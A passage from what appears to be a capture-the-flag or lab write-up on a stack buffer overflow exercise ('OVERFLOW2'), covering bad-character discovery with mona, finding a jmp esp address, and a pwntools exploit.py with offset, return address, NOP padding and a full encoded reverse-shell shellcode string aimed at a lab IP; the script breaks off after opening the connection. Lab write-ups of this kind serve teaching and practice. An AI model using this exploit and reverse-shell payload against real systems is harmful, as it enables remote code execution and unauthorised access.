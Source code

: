 From here I noticed that the other potential corrupt bytes are `\x83` and `\xba`, I tried again by removing these two too and finally I got the desired result.

<div><p align="center"><img  src="img/mona2_3.png" /></div>

So the badchars are `\x00\x23\x3c\x83\xba`.

After that I executed the command below:

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```
<div><p align="center"><img  src="img/mona2_4.png" /></div>

In this way I found all the `jmp esp` instructions with addresses that don't contain any of the badchars specified. So I create `exploit.py` setting the `retn` variable with one of that adresses.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "\xaf\x11\x50\x62"       # Little endian
reverse_shell = "\xfc\xbb\x1b\xa5\xae\xca\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe7\x4d\x2c\xca\x17\x8e\x51\x42\xf2\xbf\x51\x30\x77\xef\x61\x32\xd5\x1c\x09\x16\xcd\x97\x7f\xbf\xe2\x10\x35\x99\xcd\xa1\x66\xd9\x4c\x22\x75\x0e\xae\x1b\xb6\x43\xaf\x5c\xab\xae\xfd\x35\xa7\x1d\x11\x31\xfd\x9d\x9a\x09\x13\xa6\x7f\xd9\x12\x87\x2e\x51\x4d\x07\xd1\xb6\xe5\x0e\xc9\xdb\xc0\xd9\x62\x2f\xbe\xdb\xa2\x61\x3f\x77\x8b\x4d\xb2\x89\xcc\x6a\x2d\xfc\x24\x89\xd0\x07\xf3\xf3\x0e\x8d\xe7\x54\xc4\x35\xc3\x65\x09\xa3\x80\x6a\xe6\xa7\xce\x6e\xf9\x64\x65\x8a\x72\x8b\xa9\x1a\xc0\xa8\x6d\x46\x92\xd1\x34\x22\x75\xed\x26\x8d\x2a\x4b\x2d\x20\x3e\xe6\x6c\x2d\xf3\xcb\x8e\xad\x9b\x5c\xfd\x9f\x04\xf7\x69\xac\xcd\xd1\x6e\xd3\xe7\xa6\xe0\x2a\x08\xd7\x29\xe9\x5c\x87\x41\xd8\xdc\x4c\x91\xe5\x08\xc2\xc1\x49\xe3\xa3\xb1\x29\x53\x4c\xdb\xa5\x8c\x6c\xe4\x6f\xa5\x07\x1f\xf8\xc0\xde\x10\xb1\xbc\xe2\x2e\x50\x61\x6a\xc8\x38\x89\x3a\x43\xd5\x30\x67\x1f\x44\xbc\xbd\x5a\x46\x36\x32\x9b\x09\xbf\x3f\x8f\xfe\x4f\x0a\xed\xa9\x50\xa0\x99\x36\xc2\x2f\x59\x30\xff\xe7\x0e\x15\x31\xfe\xda\x8b\x68\xa8\xf8\x51\xec\x93\xb8\x8d\xcd\x1a\x41\x43\x69\x39\x51\x9d\x72\x05\x05\x71\x25\xd3\xf3\x37\x9f\x95\xad\xe1\x4c\x7c\x39\x77\xbf\xbf\x3f\x78\xea\x49\xdf\xc9\x43\x0c\xe0\xe6\x03\x98\x99\x1a\xb4\x67\x70\x9f\xd4\x85\x50\xea\x7c\x10\x31\x57\xe1\xa3\xec\x94\x1c\x20\x04\x65\xdb\x38\x6d\x60\xa7\xfe\x9e\x18\xb8\x6a\xa0\x8f\xb9\xbe\xa0\x2f\x46\x41"
padding = "\x90" * 32

payload = command + ("A" * offset) + retn + padding + reverse_shell

r = remote(host=ip, port=port, ssl=False)
```